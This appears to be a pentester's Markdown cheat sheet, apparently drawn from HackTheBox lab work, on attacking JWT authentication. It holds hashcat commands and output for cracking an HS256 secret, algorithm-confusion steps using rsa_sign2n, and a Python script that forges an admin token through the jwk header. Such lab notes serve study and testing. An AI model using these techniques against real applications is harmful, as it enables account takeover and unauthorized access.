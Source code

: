 # JWT
## Guessing secrets algs
- HS256
- HS384
- HS512

## Attacks
### Missing Signature Verification
Когда изменение claim`а с неизменением подписи позволяет получить доступ

### None Algorithm Attack
Изменить алгоритм подписи на `None`

### Attacking the Signing Secret (Sym algo)
1. Obtain jwt to file
```bash
echo -n eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6ZmFsc2UsImV4cCI6MTcxMTIwNDYzN30.r_rYB0tvuiA2scNQrmzBaMAG2rkGdMu9cGMEEl3WTW0 > jwt.txt
```
2. Run `hashcat` to crack
```bash
mlwrwrk@htb[/htb]$ hashcat -D 1,2 -m 16500 jwt.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (JWT (JSON Web Token))
Hash.Target......: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaH...l3WTW0
Time.Started.....: Sat Mar 23 15:24:17 2024 (2 secs)
Time.Estimated...: Sat Mar 23 15:24:19 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3475.1 kH/s (0.50ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4358144/14344384 (30.38%)
Rejected.........: 0/4358144 (0.00%)
Restore.Point....: 4354048/14344384 (30.35%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: rb270990 -> raynerleow
Hardware.Mon.#1..: Util: 52%

mlwrwrk@htb[/htb]$ hashcat -m 16500 jwt.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --show
```

### Algorithm Confusion (Asym algo)
Change sym algo to asym.

If we dont have public key we can compute it from signature. For this use [rsa_sign2n](https://github.com/silentsignal/rsa_sign2n)

#### Crack JWT with docker
1. Run
```bash
docker run -it --rm sig2n /bin/bash
python3 jwt_forgery.py <jwt1> <jwt2>
```
2. Check if auth is successful. If yes JWT is vulnerable to Algorithm Confusion attack 
3. Obtain public key 
```bash
cat XXXX_YYYY_x509.pem
```
4. Using cyberchef sign new token with public RSA key (**Add new line after key**)
![alt text](images/cyberchef.png)


### Reusing JWT Secrets (Asym algo)

`jwk` contains information about the public key used for key verification for asymmetric JWTs. If the web application is misconfigured to accept arbitrary keys provided in the jwk claim, we could forge a JWT, sign it with our own private key, and then provide the corresponding public key in the jwk claim for the web application to verify the signature and accept the JWT.

#### Exploiting jwk
1. Generate keys for sign JWT
```bash
openssl genpkey -algorithm RSA -out exploit_private.pem -pkeyopt rsa_keygen_bits:2048
openssl rsa -pubout -in exploit_private.pem -out exploit_public.pem
```
2. Manipulate JWT
```python
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
from jose import jwk
import jwt

# JWT Payload
jwt_payload = {'user': 'htb-stdnt', 'isAdmin': True}

# convert PEM to JWK
with open('exploit_public.pem', 'rb') as f:
    public_key_pem = f.read()
public_key = serialization.load_pem_public_key(public_key_pem, backend=default_backend())
jwk_key = jwk.construct(public_key, algorithm='RS256')
jwk_dict = jwk_key.to_dict()

# forge JWT
with open('exploit_private.pem', 'rb') as f:
    private_key_pem = f.read()
token = jwt.encode(jwt_payload, private_key_pem, algorithm='RS256', headers={'jwk': jwk_dict})

print(token)
```
3. Install dependencies/run code
```bash
pip3 install pyjwt cryptography python-jose
python3 exploit.py 
```

#### Exploiting jku
the `jku` claim serves a similar purpose to the jwk claim. However, instead of holding the key details directly, the claim contains a URL that serves the key details. If a web application does not correctly check this claim, it can be exploited by an attacker similar to the jwk claim. The process is nearly identical; however, instead of embedding the key details into the jwk claim, the attacker hosts the key details on his web server and sets the JWT's jku claim to the corresponding URL.

Furthermore, the jku claim may potentially be exploited for `blind GET-based Server Side Request Forgery (SSRF) attacks`.

## [jwt_tool](https://github.com/ticarpi/jwt_tool)
### Installation
```bash
git clone https://github.com/ticarpi/jwt_tool
pip3 install -r requirements.txt
```


